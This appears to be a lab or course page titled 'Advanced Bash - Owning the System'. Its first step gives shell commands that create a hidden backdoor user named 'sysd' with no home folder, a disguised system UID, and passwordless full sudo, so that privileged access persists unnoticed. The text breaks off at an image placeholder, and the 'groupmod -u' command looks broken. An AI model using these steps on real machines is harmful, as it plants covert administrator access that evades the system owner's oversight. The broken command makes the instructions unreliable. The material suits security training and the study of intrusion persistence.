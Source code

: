 # Advanced Bash - Owning the System

Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
    •	sudo useradd sysd

    2.	Give your secret user a password:
    •	sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
    •	sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
    •	sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
        •	sudo visudo
    
    ![see photo](/images/picture1.png)